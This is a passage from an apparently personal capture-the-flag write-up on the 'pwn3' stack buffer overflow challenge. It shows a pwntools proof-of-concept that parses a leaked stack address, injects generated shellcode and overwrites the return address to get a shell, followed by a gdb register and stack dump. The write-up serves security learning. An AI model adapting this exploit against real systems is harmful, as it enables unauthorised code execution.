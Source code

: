 ```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/ShellCode/Pwn3$ ./pwn3 
Take this, you might need it on your journey 0xff85118e!
```

With what we know already we'll build a POC exploit and run it through gdb to check if we are correct. For the exploit we'll generate some shellcode using pwntools. 

### Exploit

```python
import re
from pwn import *

target = process("./pwn3")

# gdb.attach(target, gdbscript="b *echo+61")

# Get stack leak
message = target.recvuntil(b"!")
m = re.search(r'(?=0).+(?=!)', message.decode('utf-8'))
ebp_0x12a = int(m.group(0), 16)

# Payload
shellcode = asm(shellcraft.i386.linux.sh())
payload = shellcode + b"A" * (0x12a - len(shellcode)) + b"B" * 4 + p32(ebp_0x12a)

target.sendline(payload)

target.interactive()
```

After running the exploit we see the following in gdb at the breakpoint:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffd9527e  →  0x2f68686a ("jhh/"?)
$ebx   : 0x64facfcc  →  <_GLOBAL_OFFSET_TABLE_+0000> aam 0x1e
$ecx   : 0xf09b19c0  →  0x00000000
$edx   : 0x1
$esp   : 0xffd95260  →  0xffd9527e  →  0x2f68686a ("jhh/"?)
$ebp   : 0xffd953a8  →  0x42424242 ("BBBB"?)
$esi   : 0xffd95484  →  0xffd9640b  →  "./pwn3"
$edi   : 0xf0a0bb80  →  0x00000000
$eip   : 0x64fab5da  →  <echo+003d> add esp, 0x10
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────────── stack ────
0xffd95260│+0x0000: 0xffd9527e  →  0x2f68686a	 ← $esp
0xffd95264│+0x0004: 0xffd9527e  →  0x2f68686a
0xffd95268│+0x0008: 0xf09d5700  →  0x74725f00
0xffd9526c│+0x000c: 0x64fab5ac  →  <echo+000f> add ebx, 0x1a20
0xffd95270│+0x0010: 0xffd952c4  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffd95274│+0x0014: 0xffd952c0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffd95278│+0x0018: 0x00000003
0xffd9527c│+0x001c: 0x686a0000
─────────────────────────────────────────────────────────────── code:x86:32 ────
   0x64fab5ce <echo+0031>      lea    eax, [ebp-0x12a]
   0x64fab5d4 <echo+0037>      push   eax
   0x64fab5d5 <echo+0038>      call   0x64fab420 <gets@plt>
 → 0x64fab5da <echo+003d>      add    esp, 0x10
   0x64fab5dd <echo+0040>      nop
   0x64fab5de <echo+0041>      mov    ebx, DWORD PTR [ebp-0x4]
   0x64fab5e1 <echo+0044>      leave
```